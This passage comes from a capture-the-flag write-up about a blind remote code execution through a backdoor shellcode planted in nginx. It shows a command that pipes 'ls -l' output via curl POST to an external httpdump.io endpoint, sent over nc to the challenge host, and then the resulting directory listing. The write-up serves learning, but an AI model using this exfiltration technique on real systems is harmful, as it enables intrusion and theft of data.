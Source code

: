 Check if a file named /tmp/bla has been written?
```
root@injector-local:/tmp# ls -la
total 48
drwxrwxrwt 11 root     root     4096 Jan 21 22:20 .
drwxr-xr-x 19 root     root     4096 Dec 21 16:20 ..
-rw-rw-rw-  1 www-data www-data    4 Jan 21 22:20 bla
```

This proves that the backdoor shellcode has at least been placed into nginx in the local qemu image!
There is one additional obstacle to climb over though: There is no echoing back of the system() output, making this a **blind remote code execution (RCE)**.

## How to Redirect RCE Output
There are different ways to redirect the RCE output to a listener under your control. One could be a netcat listener on a public routable IP address. In case you are missing one (due to NAT), you could set up a temporary HTTP endpoint at httpdump.io.
For this CTF, i used https://httpdump.io/hwie_
```
nc injector.challenges.adversary.zone 4321
cmd{ls -l | curl -X POST --data-binary @- https://httpdump.io/hwie_}
```

This yields:
```
total 64
lrwxrwxrwx   1 root root     7 Oct 22 13:58 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Dec 17 15:16 boot
drwxr-xr-x   2 root root  4096 Dec 17 14:59 cdrom
drwxr-xr-x  17 root root  3860 Jan 21 13:40 dev
drwxr-xr-x  92 root root  4096 Jan 12 14:56 etc
lrwxrwxrwx   1 root root    19 Jan 12 12:57 flag -> /home/user/flag.txt
lrwxrwxrwx   1 root root    19 Jan 12 12:10 flag.txt -> /home/user/flag.txt
drwxr-xr-x   3 root root  4096 Dec 17 15:07 home
lrwxrwxrwx   1 root root     7 Oct 22 13:58 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Oct 22 13:58 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Oct 22 13:58 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Oct 22 13:58 libx32 -> usr/libx32
drwx------   2 root root 16384 Dec 17 14:59 lost+found
drwxr-xr-x   2 root root  4096 Oct 22 13:58 media
drwxr-xr-x   2 root root  4096 Oct 22 13:58 mnt
drwxr-xr-x   2 root root  4096 Oct 22 13:58 opt
dr-xr-xr-x 170 root root     0 Jan 21 13:39 proc
drwx------   7 root root  4096 Jan 13 18:37 root
drwxr-xr-x  24 root root   720 Jan 21 17:32 run
lrwxrwxrwx   1 root root     8 Oct 22 13:58 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Oct 22 13:58 srv
dr-xr-xr-x  13 root root     0 Jan 21 13:39 sys
drwxrwxrwt  10 root root  4096 Jan 21 22:08 tmp
drwxr-xr-x  14 root root  4096 Oct 22 13:58 usr
drwxr-xr-x  13 root root  4096 Dec 30 18:16 var
```
